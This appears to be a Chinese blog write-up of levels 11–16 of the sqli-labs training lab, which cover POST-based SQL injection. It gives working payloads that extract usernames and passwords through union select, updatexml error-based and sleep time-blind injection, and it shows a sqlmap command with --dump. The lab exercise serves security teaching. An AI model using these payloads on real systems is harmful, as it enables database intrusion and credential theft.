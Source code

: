 ```yaml
---
 title: Sqlilabs通关笔记(11-16)POST基本注入
 date: 2020-01-06 14:35:27
 tags: SQL注入
 categories:
---
```


## 第十一关 基于错误的POST单引号字符型注入
![2020-1-6-14-53-0](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-14-53-0)

已经显示输入框了，说明是POST提交方式的注入

### 注入点判断
1. 在输入框中输入单引号报错，说明为简单的字符型注入
2. 根据之前GET闯关注入的经验，只是换成post提交
3. 查看字段数，判断为2个字段
> uname=admin' order by 2#&passwd=&submit=Submit 正常
> uname=admin' order by 3#&passwd=&submit=Submit 不正常
4. 直接上payload

**payload直接查出数据库所有数据**
<!--more-->

> uname=-admin' union select group_concat(username,password),2 from users#&passwd=&submit=Submit

![2020-1-6-15-2-36](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-15-2-36)

## 第十二关 基于错误的POST双引号字符型注入
1. 这关与上一关不同在于需要通过双引号来进行闭合，payload类似

> uname=-admin") union select group_concat(username,password),2 from users#&passwd=&submit=Submit

![2020-1-6-15-10-13](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-15-10-13)


## 第十三关 基于POST单引号双注入变形

1. 通过输入反斜杠报错，可以通过')来进行闭合
2. 猜测是报错注入,唯一不同的post传入
3. **直接上payload,可以直接导出所有数据**
> uname=') and (updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#&passwd=&submit=Submit

![2020-1-6-17-31-40](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-31-40)

## 第十四关 基于POST双引号双注入变形

1. 与十三关类似，只是需要通过双引号进行闭合
2. **直接上payload**

> uname=" and (updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#&passwd=&submit=Submit

## 第十五关 基于POST单引号布尔型时间盲注

1. 使用了\ ’ 等各种姿势网页硬是没有变化
2. 可能是时间盲注
3. 直接用uname=admin' and sleep(10)#&passwd=1&submit=Submit 发现确是时间盲注
4. 直接上sqlmap 或者 写个脚本跑就够了和之前GET时间盲注类似

## 第十六关 基于POST双引号布尔型时间盲注

1. 和十五关类似，只是用双引号闭合

> uname=admin") and sleep(10)#&passwd=1&submit=Submit

### SQLMAP注入
1. 通过burpsuit抓取数据包导入进sqlmap进行注入检测
2. 以less11为例通过bp抓取数据包

![2020-1-6-17-14-20](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-14-20)

3. 选择导出文件为1.txt

![2020-1-6-17-16-3](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-16-3)

4. 使用sqlmap载入导出的数据包并进行注入检测

> sqlmap -r "1.txt" -p uname -D security -T users -C username,password --dump --technique ES --batch --threads 10

* -r 读取抓包文件
* -p 需要检测的参数
* --technique 需要检测的注入方式
    - E 基于报错的注入
    - S 通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入
* --batch 默认选择
* --threads 线程数

![2020-1-6-17-23-54](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-6-17-23-54)